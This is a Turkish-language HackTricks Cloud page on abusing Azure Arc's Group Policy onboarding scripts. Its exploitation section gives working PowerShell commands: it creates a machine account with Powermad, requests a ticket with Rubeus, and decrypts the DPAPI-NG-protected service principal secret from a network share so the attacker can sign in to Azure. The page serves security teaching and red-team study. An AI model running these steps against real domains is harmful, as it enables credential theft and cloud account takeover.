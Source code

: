 # Az - Azure Arc Hassas GPO Dağıtma Betiği

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

### Sorunları Tanımlama

Azure Arc, yeni iç sunucuların (katılmış etki alanı sunucuları) Azure Arc'a Grup İlke Nesnesi yöntemiyle entegrasyonuna olanak tanır. Bu işlemi kolaylaştırmak için Microsoft, başlatma işlemi için gerekli dağıtım araçlarını sağlar. ArcEnableServerGroupPolicy.zip dosyası içinde DeployGPO.ps1, EnableAzureArc.ps1 ve AzureArcDeployment.psm1 betikleri bulunabilir.

Çalıştırıldığında, DeployGPO.ps1 betiği aşağıdaki işlemleri gerçekleştirir:

1. Yerel etki alanında Azure Arc Sunucuları Katılma GPO'sunu oluşturur.
2. Onboarding işlemi için oluşturulan belirli ağ paylaşımına EnableAzureArc.ps1 başlatma betiğini ve Windows yükleyici paketini kopyalar.

Bu betiği çalıştırırken sistem yöneticilerinin **ServicePrincipalId** ve **ServicePrincipalClientSecret** olmak üzere iki ana parametreyi sağlamaları gerekir. Ayrıca, etki alanı, paylaşımı barındıran sunucunun FQDN'si ve paylaşım adı gibi diğer parametreler de gereklidir. Kiracı kimliği, kaynak grubu ve diğer gerekli bilgiler de betiğe sağlanmalıdır.

DPAPI-NG şifrelemesi kullanılarak belirtilen paylaşımdaki AzureArcDeploy dizininde şifrelenmiş bir gizli oluşturulur. Şifrelenmiş gizli, encryptedServicePrincipalSecret adlı bir dosyada saklanır. Bu şifrelemenin, DeployGPO.ps1 betiğinde gerçekleştirildiği kanıtlanabilir. Şifreleme, $descriptor ve $ServicePrincipalSecret değişkenleriyle ProtectBase64'ü çağırarak gerçekleştirilir. Açıklamada belirtildiği gibi, descriptor, Domain Computer ve Domain Controller grup SIDs'ini içerir ve ServicePrincipalSecret'in yalnızca Etki Alanı Denetleyicileri ve Etki Alanı Bilgisayarları güvenlik grupları tarafından şifresinin çözülebileceğini sağlar.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Sömürü

Aşağıdaki koşullara sahibiz:

1. İç ağı başarılı bir şekilde ele geçirdik.
2. Active Directory içinde bir bilgisayar hesabı oluşturma veya kontrolünü ele geçirme yeteneğine sahibiz.
3. AzureArcDeploy dizinini içeren bir ağ paylaşımı keşfettik.

Bir AD ortamında bir makine hesabı elde etmenin birkaç yöntemi vardır. En yaygın olanlardan biri makine hesabı kotasını sömürmektir. Başka bir yöntem ise zayıf ACL'ler veya çeşitli diğer yapılandırmalar aracılığıyla bir makine hesabını tehlikeye atmak olabilir.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Bir makine hesabı elde edildikten sonra bu hesap kullanılarak kimlik doğrulaması yapmak mümkündür. Ya runas.exe komutunu netonly bayrağı ile kullanabiliriz ya da Rubeus.exe ile bilet geçirme yöntemini kullanabiliriz.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Bilgisayar hesabımız için TGT'nin bellekte saklanmasıyla, aşağıdaki betiği kullanarak hizmet başkanı sırrını şifreleyebiliriz.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatif olarak, [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) kullanabiliriz.

Bu noktada, Azure'a bağlanmak için gerekli kalan bilgileri toplayabiliriz. Bu bilgiler, şifrelenmiş Service Principal Secret dosyasıyla aynı ağ paylaşımında bulunan ArcInfo.json dosyasında saklanmaktadır. Bu dosya, TenantId, servicePrincipalClientId, ResourceGroup ve daha fazlası gibi detayları içerir. Bu bilgilerle, etkilenmiş servis prensibi olarak kimlik doğrulaması yapmak için Azure CLI kullanabiliriz.

## Referanslar

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
